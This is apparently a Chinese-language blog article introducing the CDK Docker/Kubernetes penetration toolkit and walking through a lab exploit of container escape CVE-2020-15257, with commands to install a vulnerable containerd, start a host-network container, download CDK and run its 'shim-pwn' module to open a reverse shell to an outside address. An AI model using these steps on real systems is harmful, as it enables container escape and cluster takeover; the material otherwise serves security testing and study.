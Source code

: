 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/OVKMmTqsyRWtK71ocZMb5w)

有在关注容器逃逸漏洞，最近在github上发现了一款零依赖Docker/K8s渗透工具包，集成了多个漏洞PoC/EXP，可轻松逃脱容器并接管K8s集群。

**CDK- 零依赖Docker/K8s渗透工具包**

CDK是一款为容器环境定制的渗透测试工具，在已攻陷的容器内部提供零依赖的常用命令及PoC/EXP。集成Docker/K8s场景特有的 逃逸、横向移动、持久化利用方式，插件化管理。

github项目地址：

```


```
https://github.com/Xyntax/CDK
```




```

下面以最近发布的容器逃逸漏洞 CVE-2020-15257作为演示漏洞利用过程。

* * *

**漏洞简述：**

当在docker使用–net=host参数启动，与宿主机共享net namespace时，容器中的攻击者可以绕过访问权限访问 containerd 的控制API 进而导致权限提升。

**漏洞利用：**

（1）安装有漏洞的containerd版本。

影响版本containerd< 1.3.9&&containerd < 1.4.3

```


```
`#列出仓库中可用的版本，安装特定版本的 Docker Engine-Community``apt-cache madison docker-ce``sudo apt-get install docker-ce=<VERSION_STRING> docker-ce-cli=<VERSION_STRING> containerd.io=<VERSION_STRING>`
```




```

![图片](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFaE5RVFYnO0GFG7tPGZa2sTiah40uX5NY3FHZNf900IfHNaT2eSdBk7A/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

（2）通过`--net=host` 作为启动参数来运行一个容器。  

```


```
sudo docker run -it --net=host ubuntu:18.04 /bin/bash
```




```

在容器内执行 `cat /proc/net/unix|grep -a "containerd-shim"` 可看到抽象命名空间Unix域套接字。

![图片](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALF3USRXUyHoX1rwxgdGDtiaSyyhGwXx3a3t0libF2EDiaHzoj0AHDdJTGhQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

（3）通过CDK执行exp，成功反弹shell，实现容器逃逸。

```


```
`wget https://github.com/Xyntax/CDK/releases/download/0.1.6/cdk_v0.1.6_release.tar.gz``tar -zxvf cdk_v0.1.6_release.tar.gz` `./cdk_linux_amd64 run shim-pwn 10.1.1.209 12345`
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFBXYPWZL6Kdj7dn6Rfy7xRGGYQUZs8uTGfC4XR045rBa65TSRQopXWQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)


```

参考链接：

> https://www.cdxy.me/?p=837